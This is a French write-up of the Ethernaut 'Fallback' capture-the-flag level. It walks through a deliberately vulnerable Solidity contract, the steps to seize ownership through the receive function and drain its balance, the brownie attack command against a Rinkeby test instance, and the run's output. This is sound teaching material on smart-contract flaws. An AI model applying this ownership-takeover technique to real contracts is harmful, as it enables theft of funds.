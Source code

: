 # Fallback

## Objectifs
Les objectifs de ce niveau sont:
1- devenir le owner du contrat
2- réduire la balance du contrat à 0

La méthode [withdraw](contracts/fallback.sol#L37) utilise le `modifier` `onlyOwner`, nous devons donc passer `owner` avant de pouvoir réduire la balance du contrat à 0.

## Devenir owner

Le contrat donne la possibilité de devenir `owner` avec les méthodes suivantes:
- [`contribute`](contracts/fallback.sol#L29)
- [`receive`](contracts/fallback.sol#L43)

Lors de la création du contrat, la contribution du `owner` est de [`1000 ether`](contracts/fallback.sol#L14)
```solidity
constructor() public {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```
Pour devenir `owner` via la méthode `contribute`, il est nécessaire de fournir une contribution plus importante que celle du `owner` mais cette méthode limite le `msg.value` à `0.001 ether`:
```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

Pour devenir `owner` via la méthode `receive`, il faut que la contribution soit supérieure à 0 et qu'il y ait de la valeur associé à cet appel:
```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

Afin de devenir `owner`, il faut appeller la méthode `contribute` avec un `msg.value` < `0.001 ether` ce qui permet d'avoir une contribution > 0.
Ensuite en envoyant des fonds à l'adresse du contrat, la méthode `receive` va être appellée et ainsi nous devenons `owner` du contrat.

## Récupération des fonds du contrat
Une fois que nous sommes owner, nous pouvons appeller la méthode `withdraw` qui nous permet de récupérer la totalité des fonds du contrat

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisation la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run attack main "0x4c7c62Ed79994383EEa5Cf156bd3159e9e12C385" --network rinkeby
```
```console
Brownie v1.18.1 - Python development framework for Ethereum

FallbackProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0x4eb894692e6cc551ca59a862ad7fe413f7d5b60e6e8aecfce7ee80ce8de5dadc
  Gas price: 1.200002455 gwei   Gas limit: 52813   Nonce: 194
  Transaction confirmed   Block: 10180337   Gas used: 48012 (90.91%)

Transaction sent: 0x069866c60d8df2e3bc6822d6f1c0902933b5c813783f1cde4bcb095aebc4201d
  Gas price: 1.200002456 gwei   Gas limit: 31183   Nonce: 195
  Transaction confirmed   Block: 10180338   Gas used: 28349 (90.91%)

Owner is hacker: True
Transaction sent: 0x18d92043ec34c686a2dff520680ddbbe08b5c70d23f43a598da6292c157be4ff
  Gas price: 1.200002459 gwei   Gas limit: 35918   Nonce: 196
  Transaction confirmed   Block: 10180339   Gas used: 30398 (84.63%)

Final contract balance: 0
```




